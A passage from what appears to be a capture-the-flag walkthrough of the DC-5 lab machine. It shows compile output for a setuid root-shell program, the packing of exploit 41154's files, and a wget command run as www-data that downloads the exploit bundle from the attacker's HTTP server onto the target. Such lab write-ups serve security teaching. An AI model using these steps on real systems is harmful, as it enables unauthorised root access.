 ```bash
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
```

Now we have total 5 files. For simplicity I compress them to tranfer to server.
```bash
$ls
41154.sh  libhax.c  libhax.so  rootshell  rootshell.c
$tar -zcvf exploit.tar.gz *
41154.sh
libhax.c
libhax.so
rootshell
rootshell.c
```
Tranfer `exploit.tar.gz` to server and decompress the files.
```
$python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.6 - - [31/Aug/2020 14:13:17] "GET /exploit.tar.gz HTTP/1.1" 200 -
```

```
www-data@dc-5:/tmp$ wget http://192.168.1.2:8000/exploit.tar.gz
converted 'http://192.168.1.2:8000/exploit.tar.gz' (ANSI_X3.4-1968) -> 'http://192.168.1.2:8000/exploit.tar.gz' (UTF-8)
--2020-08-31 18:43:15--  http://192.168.1.2:8000/exploit.tar.gz
Connecting to 192.168.1.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4430 (4.3K) [application/gzip]
Saving to: 'exploit.tar.gz'

exploit.tar.gz      100%[=====================>]   4.33K  --.-KB/s   in 0s     

2020-08-31 18:43:15 (474 MB/s) - 'exploit.tar.gz' saved [4430/4430]
www-data@dc-5:/tmp$ ls
exploit.tar.gz
www-data@dc-5:/tmp$ tar -zxvf exploit.tar.gz 
41154.sh
libhax.c
libhax.so
rootshell
rootshell.c
www-data@dc-5:/tmp$ ls
```